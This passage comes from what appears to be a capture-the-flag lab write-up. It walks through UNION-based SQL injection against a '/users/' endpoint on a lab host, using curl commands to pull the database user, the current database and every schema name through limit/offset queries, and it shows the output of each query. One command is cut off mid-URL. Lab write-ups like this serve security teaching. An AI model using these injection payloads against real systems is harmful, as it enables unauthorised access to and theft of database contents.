 

    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20user();--%20-" | jq -r '.username'
    dorthi@10.100.10.6

    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20database();--%20-" | jq -r '.username'
    ozdb



Next I'll print the databases. But I run into a problem - it only
returns one:



    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata;--%20-" | jq -r '.username'
    information_schema



I know there's at least another named `ozdb`. In fact, I can get that
using `limit` and `offset`:



    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%200;--%20-" | jq -r '.username'
    information_schema
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%201;--%20-" | jq -r '.username'
    mysql
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%202;--%20-" | jq -r '.username'
    ozdb
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%203;--%20-" | jq -r '.username'
    performance_schema
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%204;--%20-" | jq -r '.username'
    null
    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20F



In case it's not clear in the url encoding, it's
`' union select schema_name FROM information_schema.schemata limit 1 offset X;-- -`,
where I change X each time. 0-3 return names, and 4 returns null. Now I
have table names:



    information_schema
    mysql
    ozdb
    performance_schema



#### Script To Dump Tables / Columns
